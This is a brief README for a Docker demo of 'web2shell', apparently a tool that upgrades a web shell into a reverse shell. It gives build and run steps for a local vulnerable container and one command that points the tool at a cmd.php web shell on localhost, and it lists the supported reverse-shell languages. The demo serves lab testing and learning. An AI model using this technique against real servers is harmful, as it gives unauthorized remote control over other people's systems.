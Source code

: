 # web2shell docker demo

1. Build the docker image (`docker build . --tag webshell`)
2. Run the image (`docker run -it -p 8080:80 webshell`)
3. Use web2shell to secure a remote connection on the docker0 interface (`python3 web2shell.py --interface docker0 http://127.0.0.1:8080/cmd.php?cmd=SHELL`)

You can test individual shells with the `--only` flag. Please read the help menu for more info.

Note: This Docker container has the binaries for all supported reverse shells. They are as follows:

- Perl
- PHP
- Python
- Ruby
- Golang
- NodeJS
